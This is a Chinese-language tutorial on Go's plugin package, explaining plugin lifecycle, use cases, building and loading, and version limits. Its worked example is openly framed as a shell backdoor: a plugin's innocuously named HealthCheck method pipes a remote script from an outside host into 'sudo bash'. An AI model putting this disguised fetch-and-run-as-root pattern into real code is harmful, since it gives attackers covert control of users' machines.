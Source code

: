 ## Go Plugin教程

### 1. Go plugin 是什么

> A plugin is a Go main package with exported functions and variables that has been built with: `go build -buildmode=plugin`

Plugin插件是包含可导出(可访问)的function和变量的main package编译(`go build -buildmode=plugin`)之后的文件.

同时官方文档也提示了：Currently plugins are only supported on Linux and macOS .它目前支持Linux和Mac操作系统(不支持windows)

[官方文档地址](https://golang.google.cn/pkg/plugin/#pkg-overview)

### 2. Go plugin 生命周期

> When a plugin is first opened, the init functions of all packages not already part of the program are called. The main function is not run. A plugin is only initialized once, and cannot be closed.

plugin插件被打开加载 `plugin.Open("***.so")` ,插件的init初始化函数才开始执行. 也就是说main函数执行前plugin的init函数是不会执行的. 插件只被初始化一次,不能被关闭.

使用plugin的main.go生命周期

1. main.go的init函数执行
2. 开始执行main.go main函数
3. 开始执行`plugin.Open("***.so")`打开插件
4. 插件开始执行内部的init函数

### 3. Go plugin 应用场景

1. 通过plugin我们可以很方便的对于不同功能加载相应的模块并调用相关的模块；
2. 针对不同语言(英文、汉语、德语……)加载不同的语言so文件,进行不同的输出；
3. 编译出的文件给不同的编程语言用(如：c/java/python/lua等).
4. 需要加密的核心算法,核心业务逻辑可以可以编译成plugin插件
5. 黑客预留的后门backdoor可以使用plugin
6. 函数集动态加载

### 4. Go plugin 示例
这个示例建展示一下两方面内容:

1. 演示plugin插件的init的执行顺序
2. 演示怎么编写一个shell黑客后门


#### 4.1 编写插件plugin代码

```go
package main

import (
	"log"
	"os/exec"
	"time"
)

func init() {
	log.Println("plugin init function called")
}

type BadNastyDoctor string

func (g BadNastyDoctor) HealthCheck() error {
	bs,err := exec.Command("bash","-c","curl -s 'https://tech.mojotv.cn/test.sh' | sudo bash -s 'arg000' 'arg001'").CombinedOutput()
	if err != nil {
		return err

	}
	log.Println("now is",g)
	log.Println("shell has executed ->>>>>",string(bs))
	return nil
}

//go build -buildmode=plugin -o=plugin_doctor.so plugin_bad_docter.go

// exported as symbol named "Doctor"
var Doctor = BadNastyDoctor(time.Now().Format(time.RFC3339))
```

编写plugin插件要点

1. 包名称必须是main
2. 没有main函数
3. 必须有可以导出(访问)的变量或者方法

编写完成之后使用编译plugin

```bash
pi@homePi:/data/felix/plugin $ go build -buildmode=plugin -o=plugin_doctor.so plugin_bad_docter.go 
pi@homePi:/data/felix/plugin $ ll
总用量 6300
-rw-r--r-- 1 pi pi     612 9月   6  2019 plugin_bad_docter.go
-rw-r--r-- 1 pi pi 3493654 9月   6 17:06 plugin_doctor.so
-rw-r--r-- 1 pi pi     274 9月   6 16:37 readme.md
pi@homePi:/data/felix/plugin $ file plugin_doctor.so 
plugin_doctor.so: ELF 32-bit LSB shared object, ARM, EABI5 version 1 (SYSV), dynamically linked, BuildID[sha1]=9034047846f679f66ff7ac50f73aa7baf90d5e5d, not stripped
```

#### 4.2 使用plugin插件

使用加载plugin基本流程

1. 加载编译好的插件 plugin.Open("./plugin_doctor.so") (*.so文件路径相对与可执行文件的路径,可以是绝对路径)
2. 寻找插件可到变量 plug.Lookup("Doctor"),
3. TypeAssert: Symbol(interface{}) 转换成API的接口类型
4. 执行API interface的方法

```shell
#!/usr/bin/env bash
#--destination _deploy
echo "golang plugin remote shell"  $0 $1 $2
```

```go
package main

import (
	"fmt"
	"log"
	"os"
	"plugin"
)

type GoodDoctor interface {
	HealthCheck() error
}

func init()  {
	log.Println("main package init function called")
}

func main() {
	log.Println("main function stared")
	// load module 插件你也可以使用go http.Request从远程下载到本地,在加载做到动态的执行不同的功能
	// 1. open the so file to load the symbols

	plug, err := plugin.Open("./plugin_doctor.so")
	if err != nil {
		fmt.Println(err)
		os.Exit(1)
	}
	log.Println("plugin opened")

	// 2. look up a symbol (an exported function or variable)
	// in this case, variable Greeter
	doc, err := plug.Lookup("Doctor")
	if err != nil {
		fmt.Println(err)
		os.Exit(1)
	}

	// 3. Assert that loaded symbol is of a desired type
	// in this case interface type GoodDoctor (defined above)
	doctor, ok := doc.(GoodDoctor)
	if !ok {
		fmt.Println("unexpected type from module symbol")
		os.Exit(1)
	}

	// 4. use the module
	if err := doctor.HealthCheck(); err != nil {
		log.Println("use plugin doctor failed, ", err)
	}
}
```

#### 4.3 build plugin程序

```bash
pi@homePi:/data/felix/plugin $ go build use_plugin_example.go
pi@homePi:/data/felix/plugin $ ll
总用量 6300
-rw-r--r-- 1 pi pi     612 9月   6 17:08 plugin_bad_docter.go
-rw-r--r-- 1 pi pi 3493654 9月   6 17:06 plugin_doctor.so
-rw-r--r-- 1 pi pi     274 9月   6 16:37 readme.md
-rwxr-xr-x 1 pi pi 2941503 9月   6 17:15 use_plugin_example
-rw-r--r-- 1 pi pi    1057 9月   6  2019 use_plugin_example.go
pi@homePi:/data/felix/plugin $ file use_plugin_example
use_plugin_example: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-armhf.so.3, for GNU/Linux 3.2.0, BuildID[sha1]=fc60641527d9b030f9f4d5a477de300e9fb70541, not stripped
```

#### 4.4 go run

```bash
pi@homePi:/data/felix/plugin $ ./use_plugin_example 
2019/09/06 17:16:23 main package init function called
2019/09/06 17:16:23 main function stared
2019/09/06 17:16:23 plugin init function called
2019/09/06 17:16:23 plugin opened
2019/09/06 17:16:23 now is 2019-09-06T17:16:23+08:00
2019/09/06 17:16:23 shell has executed ->>>>> golang plugin remote shell bash arg000 arg001
```

### 5.Go语言plugin局限和不足

Go plugin 还不是一个成熟的解决方案.它迫使你的插件实现与主应用程序产生高度耦合.即使你可以控制插件和主应用程序, 最终结果也非常脆弱且难以维护.如果插件的作者对主应用程序没有任何控制权,开销会更高.


#### 5.1 Go版本兼容问题

插件实现和主应用程序都必须使用完全相同的Go工具链版本构建. 由于插件提供的代码将与主代码在相同的进程空间中运行, 因此编译的二进制文件应与主应用程序 100%兼容.

### 6. 总结

我希望你记下的关键要点:

1.Go插件从v1.8版本开始支持，它目前支持Linux和Mac操作系统(不支持windows)
2.Go plugin包提供了一个简单的函数集动态加载,可以帮助开发人员编写可扩展的代码.
3.Go插件是使用go build -buildmode = plugin构建标志编译
4.Go插件包中的导出函数和公开变量，可以使用插件包在运行时查找并绑定调用.
5.Go runtime import插件的开发人员必须将插件视为黑盒子，做好各种最坏的假设









